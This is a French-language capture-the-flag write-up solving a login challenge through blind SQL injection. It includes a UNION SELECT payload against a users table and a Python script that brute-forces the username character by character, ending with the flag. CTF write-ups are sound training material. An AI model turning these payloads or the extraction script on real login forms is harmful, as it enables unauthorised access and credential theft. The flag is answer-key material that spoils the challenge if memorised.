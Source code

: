# Solution
Bon, lorsqu'on rentre dans le site, on se retrouve avec le login form des challenges précédents. Cependant on nous dit "On a décider d'enlever la validation client. On utilise maintenant une BD."... Intéressant. Ca veut dire qu'on va devoir faire du SQLi. Youpiiiii
Alors, on commence par un petit boolean-based query...    
<img src="https://github.com/user-attachments/assets/5f8d6c81-9d73-4a9e-98b1-90663f47a401" alt="Alt Text" width="400" height="400">  
What? Ok lol... après quelques petits tests, on se rend compte que le caractère interdit est le point-virgule (;) donc si on l'enlève  
<img src="https://github.com/user-attachments/assets/eae3c530-b317-4d42-869f-df6f44b82cb9" alt="Alt Text" width="400" height="400">   
Interéssant. On ne nous affiche rien à l'écran sauf que des messages d'erreur. Ca tombe donc dans ce qui serait du Error-based Blind SQLi. Notre 1e intuition devrait être de chercher à savoir quel type de BD qu'on travaille avec...bah pas pour moi qui était convaincu que c'était du Postgresql for some reason lololol (SQLite). Donc, prochaine étape est de savoir combien de colonnes qu'il y a  
<img src="https://github.com/user-attachments/assets/14add371-c953-4a32-8d31-9dd391323f47" alt="Alt Text" width="400" height="400">   
Trouvé!! Il y a 3 colonnes et vu qu'on est dans un login form la table doit forcément s'appeler "users" donc essayons ceci  
``1' UNION SELECT username,null,null from users where username LIKE '%'-- ``  
<img src="https://github.com/user-attachments/assets/69ceeea4-ded6-4cb8-934d-52b571dc4e30" alt="Alt Text" width="400" height="400">  
Ok donc on va devoir fort probablement faire un script pour brute force le username qui est probablement le 1er flag  
```python
import requests
import string

URL = "https://auth10x.chals.ageei.org/validate"

CHARSET = string.digits + string.ascii_lowercase + string.ascii_uppercase + "!@#$^&*-_"

username = "LEGO-"

SQLI_TEMPLATE = "' UNION SELECT username, null, null FROM users WHERE username LIKE '{name}%' -- "

# Function to extract username character by character
def extract_username():
    global username
    while True:
        found = False
        for char in CHARSET:
            test_name = username + char
            print(f"[*] Testing: {test_name}%", end="\r")

            payload = {"username": SQLI_TEMPLATE.format(name=test_name), "password": ""}
            response = requests.post(URL, data=payload)

            if "Identifiants faux !" in response.text:
                username += char
                print(f"\n[✔] Found character: {char}")
                found = True
                break

        if not found:
            print("\n[🔥] Username Extraction Complete!")
            break

    return username

print("[+] Starting username brute-force extraction...")
final_username = extract_username()
print(f"[🚀] Extracted Username: {final_username}")
```  
<img src="https://github.com/user-attachments/assets/9d1021a0-8e22-47ec-83aa-ce8653bf45a4" alt="Alt Text" width="400" height="400">  
SUCESS!!!!  
Flag: LEGO-us3rn4m3-5b1706

